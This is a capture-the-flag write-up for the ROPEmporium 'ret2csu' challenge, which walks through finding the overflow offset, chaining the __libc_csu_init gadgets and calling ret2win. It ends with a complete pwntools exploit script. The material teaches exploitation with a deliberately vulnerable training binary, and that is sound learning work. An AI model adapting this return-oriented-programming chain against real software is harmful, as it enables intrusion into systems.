

# "ret2csu" ROPEmporium Challenge 8 Writeup

Instead of using `gdb-peda`'s `pattern create`, I made use of `pwntools` this
time.

```python
# wait until program is ready to receive input
p.recvuntil(b'> ')

def find_rip_offset():
    p.sendline(cyclic(500))
    p.wait()
    core = p.corefile
    stack = core.rsp
    info("rsp = %#x" % stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
    info("rip offset is %d" % rip_offset)


find_rip_offset() # => 40
```

---

`ret2csu` is a technique combining two gadgets from the `__libc_csu_init`
function.

The first gadgets is used to set a bunch of registers:

```
  40069a:	5b                   	pop    %rbx
  40069b:	5d                   	pop    %rbp
  40069c:	41 5c                	pop    %r12
  40069e:	41 5d                	pop    %r13
  4006a0:	41 5e                	pop    %r14
  4006a2:	41 5f                	pop    %r15
  4006a4:	c3                   	ret
```

The next gadgets moves some values from registers we control to other
registers, and ends with a `call` (also under our control):

```
  400680:	4c 89 fa             	mov    %r15,%rdx
  400683:	4c 89 f6             	mov    %r14,%rsi
  400686:	44 89 ef             	mov    %r13d,%edi
  400689:	41 ff 14 dc          	call   *(%r12,%rbx,8)
```

`ret2win` is very picky about its arguments, those need to be:

```
# %rdi: 0xdeadbeefdeadbeef
# %rsi: 0xcafebabecafebabe
# %rdx: 0xd00df00dd00df00d
```

A quick check with `radare2` tells us...

```
r2 ret2csu
/R pop rdi
#  0x004006a3                 5f  pop rdi
#  0x004006a4                 c3  ret

/R pop rsi
#  0x004006a1                 5e  pop rsi
#  0x004006a2               415f  pop r15
#  0x004006a4                 c3  ret

/R pop rdx
# no result ;-(

/R mov rdx
#  0x004004d8               0b20  or esp, dword [rax]
#  0x004004da             004885  add byte [rax - 0x7b], cl
#  0x004004dd         c07402ffd0  sal byte [rdx + rax - 1], 0xd0
#  0x004004e2           4883c408  add rsp, 8
#  0x004004e6                 c3  ret
#
#  0x0040067e               0000  add byte [rax], al
#  0x00400680             4c89fa  mov rdx, r15
#  0x00400683             4c89f6  mov rsi, r14
#  0x00400686             4489ef  mov edi, r13d
#  0x00400689           41ff14dc  call qword [r12 + rbx*8]
```

While we have two easy gadgets for `rdi`and `rsi`, the third argument `rdx`
proves much harder to control.

`radare2`'s first gadget suggestion is useless, we recognize the second result
to be the second gadget from the `ret2csu` technique.

Take to attention that `call *(%r12,%rbx,8)` will calculate an address using
the formula `r12+(rbx*8)`, then *dereference* it and jump to whatever address
is found at that pointer.

In other words, `r12+(rbx*8)` needs to point to a pointer that points to the
instruction to jump to.

I first thought this would be really easy, we can just store zero into `rbx`
and `ret2win`'s offset from the GOT:

```python3
RIP_OFFSET = 40

payload  = b'A'*RIP_OFFSET

payload += p64(rop.rdi.address)    # r12
payload += p64(0xdeadbeefdeadbeef) # rdi

payload += p64(0x0040069a)         # rbx, rbp, r12, r13, r14, r15
payload += p64(0x00)               # rbx
payload += p64(0x00)               # rbp
payload += p64(elf.got['ret2win']) # r12
payload += p64(0xdeadbeefdeadbeef) # r13 -> edi (rdi)
# Well fuck: https://stackoverflow.com/questions/11177137/why-do-x86-64-instructions-on-32-bit-registers-zero-the-upper-part-of-the-full-6
payload += p64(0xcafebabecafebabe) # r14 -> rsi
payload += p64(0xd00df00dd00df00d) # r15 -> rdx
payload += p64(0x00400680)         # mov rdx, r15; mov rsi, r14, mov edi, r13d; call qword [r12 + rbx*8]
# call happens here
```

However, as you can see by the comment, moving a 32-byte value into the lower
32-byte of a register actually zeros out the upper 32-bytes.

This means, that the value in %rdi gets corrupted, `ret2win` will not grant us
entry this way!

---

The two gadgets for `ret2csu`:

```
# -- gadget 2:
  400680:	4c 89 fa             	mov    %r15,%rdx
  400683:	4c 89 f6             	mov    %r14,%rsi
  400686:	44 89 ef             	mov    %r13d,%edi
  400689:	41 ff 14 dc          	call   *(%r12,%rbx,8)
# -- gadget 2 continues from here after the call, running right back into gadget 1!
  40068d:	48 83 c3 01          	add    $0x1,%rbx
  400691:	48 39 dd             	cmp    %rbx,%rbp
  400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
  400696:	48 83 c4 08          	add    $0x8,%rsp
# -- gadget 1:
  40069a:	5b                   	pop    %rbx
  40069b:	5d                   	pop    %rbp
  40069c:	41 5c                	pop    %r12
  40069e:	41 5d                	pop    %r13
  4006a0:	41 5e                	pop    %r14
  4006a2:	41 5f                	pop    %r15
  4006a4:	c3                   	ret
```

Since we can't `call` `ret2win` directly, we need to call something else.
Calling `_init` is a good idea, since this function won't mess up our `rbx`
register, and there already are "pointers" pointing to its address available.

To find those pointers, I used `gef` for GDB (I couldn't figure out how to do
the same search with vanilla GDB or gdb-peda ?):

```
disas _init
# Dump of assembler code for function _init:
#    0x00000000004004d0 <+0>:	sub    rsp,0x8
#    0x00000000004004d4 <+4>:	mov    rax,QWORD PTR [rip+0x200b1d]        # 0x600ff8
#    0x00000000004004db <+11>:	test   rax,rax
#    0x00000000004004de <+14>:	je     0x4004e2 <_init+18>
#    0x00000000004004e0 <+16>:	call   rax
#    0x00000000004004e2 <+18>:	add    rsp,0x8
#    0x00000000004004e6 <+22>:	ret
# End of assembler dump.

gef> search-pattern 0x00000000004004d0
# [+] Searching '\xd0\x04\x40\x00\x00\x00\x00\x00' in memory
# [+] In '/home/prince/code/rop-emporium/8-ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
#   0x400398 - 0x4003b8  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]" 
#   0x400e38 - 0x400e58  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]" 
# [+] In '/home/prince/code/rop-emporium/8-ret2csu/ret2csu'(0x600000-0x602000), permission=rw-
#   0x600398 - 0x6003b8  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]" 
#   0x600e38 - 0x600e58  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]"
```

Let's pick `0x600398`.
If I don't care about the value of a register, I'll simply use `0xFF`.

Again, we have our first gadget:

```python
# gadget 1:
payload += p64(0x0040069a)         # rbx, rbp, r12, r13, r14, r15
payload += p64(0x00)               # rbx
payload += p64(0x01)               # rbp
payload += p64(0x600398)           # r12: _init function
payload += p64(0xFF)               # r13
payload += p64(0xcafebabecafebabe) # r14 -> rsi
payload += p64(0xd00df00dd00df00d) # r15 -> rdx
# return to gadget 2:
payload += p64(0x00400680)         # mov rdx, r15; mov rsi, r14, mov edi, r13d; call qword [r12 + rbx*8]
```

Gadget 1 sets up some registers, then returns to gadget 2.

%rbx must be zero and %r12 point to the pointer to `_init`'s address, so that
the call using `%r12+%rbx*8` will end up as the value from %r12.

The `call` instruction pushes the address of the instruction after it onto the
stack, hence `_init` returns to `add $0x1,%rbx`.

Subsequently, the values in %rbx and %rbp are compared.
To take our prefered control flow, we need both values to be the same.
For this reason we pop `0x01` into %rbp (see gadget 1 above).

By this point we already have the right values for %rsi and %rdx, but we're
still missing %rdi.

Gadget 2 falls back into the pop-slide of gadget 1.

We pop past the pop-slide, return to the `pop rdi; ret` gadget, and make our
final return to `ret2win@plt`.

```python
# gadget 2:
# pop the values prepared in gadget 1
# call _init, return from init and continue on next instruction
payload += p64(0xFF) # add rsp,0x8 (removes this value from the stack)
payload += p64(0xFF) # rbx
payload += p64(0xFF) # rbp
payload += p64(0xFF) # r12
payload += p64(0xFF) # r13
payload += p64(0xFF) # r14
payload += p64(0xFF) # r15
payload += p64(rop.rdi.address) # pop rdi; ret
payload += p64(0xdeadbeefdeadbeef) # rdi
payload += p64(elf.plt['ret2win'])
```



The full exploit:

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'
context.terminal = ['kitty']

process_name = './ret2csu'

DEBUG = False
DEBUG_ARGS = '''
b pwnme
b *pwnme+152
b *__libc_csu_init+73
display/x $rdi
display/x $rsi
display/x $rdx
'''

elf = ELF(process_name)
rop = ROP(elf)

if DEBUG:
    p = gdb.debug(process_name, DEBUG_ARGS, env={})
else:
    p = process(process_name)

# wait until program is ready to receive input
p.recvuntil(b'> ')


def find_rip_offset():
    p.sendline(cyclic(500))
    p.wait()
    core = p.corefile
    stack = core.rsp
    info("rsp = %#x" % stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
    info("rip offset is %d" % rip_offset)


#find_rip_offset()
RIP_OFFSET = 40

# %rdi: 0xdeadbeefdeadbeef
# %rsi: 0xcafebabecafebabe
# %rdx: 0xd00df00dd00df00d

payload  = b'A'*RIP_OFFSET

# ** gadget 1:
payload += p64(0x0040069a) # rbx, rbp, r12, r13, r14, r15
payload += p64(0x00) # rbx
payload += p64(0x01) # rbp
payload += p64(0x600398) # r12: _init function
payload += p64(0xFF) # r13
payload += p64(0xcafebabecafebabe) # r14 -> rsi
payload += p64(0xd00df00dd00df00d) # r15 -> rdx
# ** gadget 2:
payload += p64(0x00400680) # mov rdx, r15; mov rsi, r14, mov edi, r13d; call qword [r12 + rbx*8]
# call happens here
payload += p64(0xFF) # add rsp,0x8 (removes this value from the stack)
# ** falls back into gadget 1:
payload += p64(0xFF) # rbx
payload += p64(0xFF) # rbp
payload += p64(0xFF) # r12
payload += p64(0xFF) # r13
payload += p64(0xFF) # r14
payload += p64(0xFF) # r15
# ** fix up %rdi
payload += p64(rop.rdi.address) # pop rdi; ret
payload += p64(0xdeadbeefdeadbeef) # rdi
# ** call target function
payload += p64(elf.plt['ret2win'])

p.sendline(payload)
p.interactive()
```
